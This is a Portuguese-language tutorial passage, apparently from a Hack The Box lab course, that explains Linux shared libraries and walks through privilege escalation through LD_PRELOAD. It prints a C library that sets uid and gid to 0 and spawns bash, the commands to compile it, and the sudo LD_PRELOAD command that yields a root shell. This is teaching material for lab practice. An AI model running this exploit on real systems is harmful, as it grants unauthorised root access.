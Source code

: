 No Linux, programas geralmente usam bibliotecas de objetos compartilhados dinamicamente vinculados. Essas bibliotecas contêm código compilado ou dados que evitam a reescrita de código em vários programas.

Existem dois tipos de bibliotecas: estáticas (.a), que se tornam parte do programa ao serem compiladas e não podem ser alteradas, e dinâmicas (.so), que podem ser modificadas para influenciar a execução do programa que as utiliza.

Existem vários métodos para especificar a localização de bibliotecas dinâmicas, para que o sistema saiba onde procurá-las na execução do programa.

Isso inclui os sinalizadores `-rpath` ou `-rpath-link` ao compilar um programa, usar as variáveis ​​de ambiente `LD_RUN_PATH` ou `LD_LIBRARY_PATH`, colocar bibliotecas nos diretórios padrão `/lib` ou `/usr/lib` ou especificar outro diretório contendo as bibliotecas dentro do arquivo de configuração `/etc/ld.so.conf`.

Além disso, a variável de ambiente `LD_PRELOAD` pode carregar uma biblioteca antes de executar um binário. As funções desta biblioteca têm preferência sobre as padrões. Os objetos compartilhados requeridos por um binário podem ser visualizados usando o utilitário `ldd`.

```shell-session
htb_student@NIX02:~$ ldd /bin/ls

	linux-vdso.so.1 =>  (0x00007fff03bc7000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f4186288000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4185ebe000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f4185c4e000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f4185a4a000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f41864aa000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f418582d000)
```

A imagem acima lista todas as bibliotecas necessárias pelo `/bin/ls`, juntamente com seus caminhos absolutos.

## Escalonamento de privilégios LD_PRELOAD

Vamos ver um exemplo de como podemos utilizar a variável de ambiente [LD_PRELOAD](https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html) para escalar privilégios. Para isso, precisamos de um usuário com privilégios `sudo`.

```shell-session
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```

ste usuário tem direitos para reiniciar o serviço Apache como root, mas como este não é um [GTFOBin](https://gtfobins.github.io/#apache) e a entrada `/etc/sudoers` é escrita especificando o caminho absoluto, isso não poderia ser usado para escalar privilégios em circunstâncias normais.
No entanto, podemos explorar o `LD_PRELOAD`problema para executar um arquivo de biblioteca compartilhada personalizado. Vamos compilar a seguinte biblioteca:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Podemos compilar isso da seguinte forma:
```shell-session
htb_student@NIX02:~$ gcc -fPIC -shared -o root.so root.c -nostartfiles
```

Por fim, podemos escalar privilégios usando o comando abaixo. Certifique-se de especificar o caminho completo para seu arquivo de biblioteca malicioso.

```shell-session
htb_student@NIX02:~$ sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

id
uid=0(root) gid=0(root) groups=0(root)
```













































